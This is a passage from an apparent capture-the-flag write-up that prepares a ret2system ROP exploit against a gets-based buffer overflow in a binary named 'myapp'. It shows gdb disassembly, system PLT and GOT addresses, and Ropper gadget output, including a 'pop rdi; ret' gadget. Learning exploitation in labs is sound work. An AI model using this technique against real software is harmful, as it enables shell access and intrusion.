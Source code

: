 
It will return to POP RDI, which will pop the address of `/bin/sh` into RDI,
and then return to `system`.

Now I just need to find some addresses, and I have an exploit.

In `gdb`, I’ll disassemble main:

    
    
    gdb-peda$ disassemble main 
    Dump of assembler code for function main:
       0x000000000040115f <+0>:     push   rbp
       0x0000000000401160 <+1>:     mov    rbp,rsp
       0x0000000000401163 <+4>:     sub    rsp,0x70
       0x0000000000401167 <+8>:     lea    rdi,[rip+0xe9a]        # 0x402008
       0x000000000040116e <+15>:    call   0x401040 <system@plt>
       0x0000000000401173 <+20>:    lea    rdi,[rip+0xe9e]        # 0x402018
       0x000000000040117a <+27>:    mov    eax,0x0
       0x000000000040117f <+32>:    call   0x401050 <printf@plt>
       0x0000000000401184 <+37>:    lea    rax,[rbp-0x70]
       0x0000000000401188 <+41>:    mov    esi,0x3e8
       0x000000000040118d <+46>:    mov    rdi,rax
       0x0000000000401190 <+49>:    mov    eax,0x0
       0x0000000000401195 <+54>:    call   0x401060 <gets@plt>
       0x000000000040119a <+59>:    lea    rax,[rbp-0x70]
       0x000000000040119e <+63>:    mov    rdi,rax
       0x00000000004011a1 <+66>:    call   0x401030 <puts@plt>
       0x00000000004011a6 <+71>:    mov    eax,0x0
       0x00000000004011ab <+76>:    leave  
       0x00000000004011ac <+77>:    ret    
    End of assembler dump.
    

I’ll grab the address of `main()` (0x40115f) for later. Where I see `system`
called, what is called is the PLT address for `system` (0x401040). If I look
at that address, I’ll see both the PLT address and the GOT address (0x404020):

    
    
    gdb-peda$ x/i 0x401040
       0x401040 <system@plt>:       jmp    QWORD PTR [rip+0x2fda]        # 0x404020 <system@got.plt>
    

Now I need a POP RDI gadget. I’ll use
[Ropper](https://github.com/sashs/Ropper):

    
    
    root@kali# ropper -f myapp | grep rdi
    [INFO] Load gadgets from cache
    [LOAD] loading... 100%
    [LOAD] removing double gadgets... 100%
    0x000000000040108a: adc dword ptr [rax], eax; mov rdi, 0x40115f; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
    0x000000000040119b: lea eax, dword ptr [rbp - 0x70]; mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 
    0x000000000040119a: lea rax, qword ptr [rbp - 0x70]; mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 
    0x0000000000401087: mov ecx, 0x4011b0; mov rdi, 0x40115f; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
    0x0000000000401086: mov rcx, 0x4011b0; mov rdi, 0x40115f; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
    0x000000000040108d: mov rdi, 0x40115f; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
    0x000000000040119e: mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 
    0x00000000004010c6: or dword ptr [rdi + 0x404048], edi; jmp rax; 
    0x0000000000401090: pop rdi; adc dword ptr [rax], eax; call qword ptr [rip + 0x2f56]; hlt; nop dword ptr [rax + rax]; ret; 
    0x000000000040120b: pop rdi; ret; 
    0x000000000040119c: xchg eax, r8d; mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 